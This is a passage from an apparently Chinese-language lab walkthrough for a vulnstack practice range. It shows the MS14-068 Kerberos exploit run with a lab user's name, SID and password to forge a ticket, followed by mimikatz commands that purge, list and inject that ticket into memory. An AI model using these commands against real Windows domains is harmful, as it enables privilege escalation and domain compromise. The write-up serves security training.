 

执行如下cmd命令利用ms14068漏洞，执行完毕后会在当前文件夹下生成一个`TGT_douser@DEMO.COM.ccache`文件，这是一个票据文件，能够用于进一步的攻击活动

```
MS14-068.exe -u douser@DEMO.COM -s S-1-5-21-979886063-1111900045-1414766810-1107 -d 192.168.183.130 -p Dotest123
```

![image-20231219163951497](vulnstack靶场系列四/image-20231219163951497.png)



使用mimikatz注入上述生成的票据

```
mimikatz # kerberos::purge    //清空当前机器中所有凭
mimikatz # kerberos::list     //查看当前机器凭证
mimikatz # kerberos::ptc <上述生成的票据文件>   //将票据注入到内存中
```

![image-20231219164535866](vulnstack靶场系列四/image-20231219164535866.png)

